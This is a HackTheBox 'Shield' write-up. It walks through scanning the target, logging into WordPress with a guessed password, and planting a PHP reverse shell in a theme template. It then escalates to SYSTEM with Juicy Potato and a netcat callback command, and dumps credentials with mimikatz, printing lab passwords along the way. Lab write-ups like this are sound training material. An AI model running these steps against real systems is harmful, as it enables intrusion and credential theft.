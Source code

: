 ```yaml
---
description: Shield box from HackTheBox write up.
---
```


# Shield

## nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 12:39 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -p80,3306 -sC -sV 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 12:41 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.33s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

The scan shows a MySQL server and a web server (I also run a scan of all the ports but looks like not more ports open). Look's like MySQL server is only accesible from `localhost` so let's start checking the web server. 

## Port 80

The web server shows the default ISS page. `gobuster` time I guess, since is a Windows box we can use the lowercase wordlist because NTFS is case insensitive:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://<MACHINE_IP> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<MACHINE_IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/02 12:51:38 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 152] [--> http://<MACHINE_IP>/wordpress/]
===============================================================
2021/09/02 12:53:13 Finished
===============================================================
```

Cool, a Wordpress site time for enumeration. Checking the blog page I found that `admin` is a valid user so we have something for a brute force attack if necessary.

Before attempting a brute force attack (`xmlrpc` is enabled so we can try to do it) i tried some previous challenges passwords and `P@s5w0rd!` worked!

Once in the Wordpress admin panel getting a reverse shell is trivial editing the theme templates. I edited the `404.php` template of the `twentynineteen` theme. I added a Windows PHP reverse shell to it and after setting up a listener y executed the shell in `/wp-content/themes/twentynineteen/404.php`.

## In the box

Once in the box the first thing we can grab are the database credentials and get access to it if we wish to. The credentials are found in the Wordpress `wp-config.php` file:

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress124');

/** MySQL database username */
define('DB_USER', 'wordpressuser124');

/** MySQL database password */
define('DB_PASSWORD', 'P_-U9dA6q.B|');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

The thing is that there is something better. Using the `systeminfo` command we see that the server is using `Microsoft Windows Server 2016 Standard` which is vulnerable to Rotten Potato. In this case we will use Juicy Potato that is basically an improve Rotten Potato. After uploading the exploit binary we will also need a `netcat` binary to get a reverse shell with `system` privileges. Once we have all in the box we can prepare a listener and launch the exploit:

```powershell
PS C:\inetpub\wwwroot\wordpress\wp-content\uploads> .\jp.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e cmd.exe <MY_IP> 9000" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Shield/www]
└─$ nc -lnvp 9000                                             
listening on [any] 9000 ...
connect to [<MY_IP>] from (UNKNOWN) [<MACHINE_IP>] 50123
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Boom! The `root` flag is in  `C:\Users\Administrator\Desktop\root.txt`

## Post exploitation

Once we are `system` we can try to get some credentials from the users in the system. Uploading a `mimikatz` binary we can get `sandra:Password1234!`credentials using the `sekurlsa::logonpasswords` functionality.